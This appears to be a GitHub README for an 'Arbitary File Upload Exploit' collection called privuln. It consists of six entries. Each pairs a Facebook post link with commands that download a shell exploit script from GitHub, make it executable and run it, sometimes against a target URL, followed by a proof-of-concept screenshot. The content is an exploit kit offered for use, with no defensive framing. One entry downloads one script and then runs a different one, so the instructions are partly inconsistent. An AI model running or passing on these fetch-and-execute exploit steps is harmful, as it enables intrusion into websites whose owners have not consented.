 # privuln
## Arbitary File Upload Exploit

- https://web.facebook.com/maing.phtml/posts/pfbid0Bar7Nn49QEjG5RBARYn6D84HDKYJ1wewp7HadK2BuU91NKtcY4zkqirKrtSWvCRDl
```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/privuln.sh
chmod +x privuln.sh
./privuln.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/poc.jpeg">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02sagrsrsiEZ52rVQqbzaszkuvtrZA3sDQrWWjpk8a5VrF7TfBQC21WNdpXkxMz6SKl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/exploit.sh
chmod +x exploit.sh
./exploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/exploit.jpeg">

---

- https://web.facebook.com/maing.phtml/posts/pfbid0NRMMR8Z8AmGwtQt18gzqjYtt5Zgj5JmzGqPFyCfV7BWYHirtH4uVd8GqBUkWPQ9Rl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/molla.sh
chmod +x exploit.sh
./exploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/molla-exploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02tWdvYk5H1VX9JfuoKvnSQcpkgQut9QDqZ9biaLPXKcMHFRW8Y5hpXEY6kr8wuMX7l

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/zanexploit.sh
chmod +x zanexploit.sh
./zanexploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/zanexploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02ZxhYbJ4kYxh31KKs3nPrYpUbP9psSiifADvp1nehyGdx213dQmFU9LmZ16kNZC2xl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/eraexploit.sh
chmod +x eraexploit.sh
./eraexploit.sh http://target.com
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/earexploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02um3uk7LZnwmjSNsAWnNhxUaVEgm1WJa61dymvqV2eu6fRbtXfrcUe2ywoG4ygB8Bl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/flixploit.sh
chmod +x flixploit.sh
./flixploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/flixploit-poc.png">
